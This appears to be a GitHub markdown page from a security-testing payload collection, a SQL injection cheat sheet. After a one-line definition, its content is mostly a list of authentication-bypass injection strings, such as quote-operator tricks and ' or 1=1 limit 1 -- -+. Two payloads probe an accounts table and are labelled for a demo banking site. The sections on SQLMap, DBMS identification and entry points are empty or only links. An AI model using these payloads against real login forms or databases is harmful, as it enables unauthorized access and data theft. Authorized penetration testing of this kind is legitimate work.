 # SQL Injection

A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application

## _Authentication Bypass_

```
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--

// Using for: https://demo.testfire.net/bank/main.jsp

admin' and (select count(*) from accounts)>=5--
admin' and (select count(*) from accounts)=5--

```

## _SQL Injection using SQLMap_
[SQL link](https://github.com/josdoaitran/PayloadForSecurityTesting/blob/master/SQLMap.md)

## _DBMS Identification_

## _Entry point detection_


# Thanks to and Reference:

- https://github.com/payloadbox/sql-injection-payload-list
- https://hbh.sh/forum/15/17543/help-on-pen-test-assignment-altoro-mutual-site

